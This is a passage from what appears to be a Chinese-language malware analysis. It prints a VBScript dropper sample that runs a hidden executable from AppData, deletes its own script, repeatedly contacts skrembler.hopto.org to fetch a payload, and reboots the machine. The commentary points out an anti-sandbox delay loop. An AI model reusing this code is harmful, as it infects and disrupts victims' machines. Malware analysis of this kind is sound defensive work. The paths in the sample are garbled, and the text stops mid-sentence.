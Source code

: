 ```
DeCQ.Write “createobject(“”Wscript.Shell””).run “”C:UsersShytAppDataRoamingMicrosoftExcel”+vNsF+”.exe””,0” &amp; vbCrLf
DeCQ.Write “PaKX.DeleteFile Wscript.ScriptFullName”&amp; vbCrLf
DeCQ.Close
End If
If kcEE &lt;&gt; 0 Then
End If
End Sub

hutC = 1
Do While hutC &gt; 0
WScript.Sleep 181224
save CZeq(“http://skrembler.hopto.org/WIN-IHN30SD7IMB_9AC9AA87/tor.php“)
Dim QKLN, zIvq, jJjj, CQLk
Set YDJG = CreateObject(“Scripting.FileSystemObject”)
QKLN = YDJG.GetParentFolderName(“C:UsersShytAppDataRoamingMicrosoftExcel”+vNsF+”.exe”)
With WScript.CreateObject(“Scripting.FileSystemObject”)
Set HHHm = CreateObject(“Scripting.FileSystemObject”)
If HHHm.Fileexists(“C:UsersShytAppDataRoamingMicrosoftExcel”+ vNsF +”.txt”) Then HHHm.DeleteFile “C:UsersShytAppDataRoamingMicrosoftExcel”+ vNsF +”.txt”
jJjj = 0
For Each zIvq In .GetFolder(QKLN).Files
If UCase(.GetExtensionName(zIvq.Name)) = UCase(“exe”) Then
jJjj = jJjj + 1
End If
Next
If (jJjj &gt; 2) Then
Dim NYBz, IHEL, IHELSheck
Set NYBz = GetObject(“WinMgmts:`{`(Shutdown,RemoteShutdown)`}`!.RootCIMV2:Win32OperatingSystem”)
Set IHEL = NYBz.Instances
For Each IHELSheck In IHEL
IHELSheck.Reboot()
Next
End If
End With
Loop
```

程序最开始通过

<code>On Error Resume Next<br>
Dim MTYj<br>
MTYj = DateAdd("s", 25, Now())<br>
Do Until (Now() &gt; MTYj)<br>
Loop</code>

启用一个循环，从行为来看应该是用于反沙箱

该程序的入口点在程序最下方，程序通过

<code>hutC = 1<br>
Do While hutC &gt; 0<br>
WScript.Sleep 181224</code>
